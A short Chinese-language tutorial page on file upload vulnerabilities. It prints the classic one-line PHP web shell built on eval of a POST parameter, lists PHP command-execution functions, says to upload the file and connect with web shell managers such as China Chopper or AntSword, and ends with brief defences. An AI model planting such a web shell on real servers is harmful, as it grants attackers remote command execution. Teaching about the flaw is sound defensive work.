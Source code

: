 # 文件上传漏洞

> 文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

**攻击方式/类型** \
主要在于一句话木马的组成方式

```
<?php eval($_POST['cmd']);?>
↑这就是最简单的一句话木马
其中的$_POST可以替换为$_GET或者$_REQUEST
分别代表POST传参 GET传参 两者皆可
eval是命令执行函数
其余的分别有：
eval()：将字符串作为 PHP 代码执行。
system()：执行系统命令并返回输出。
exec()：执行外部命令。
shell_exec()：执行 shell 命令并返回输出。
passthru()：执行外部命令并将原始输出发送到输出。
popen()：打开进程文件指针。
proc_open()：执行命令并打开进程文件指针。
```

随后把包含该内容的php文件上传至服务器 利用中国菜刀 蚁剑等软件连接即可

**防御方式** \
检查文件类型 检查文件大小 传文件后更改文件名称 对文件内容进行检查与过滤

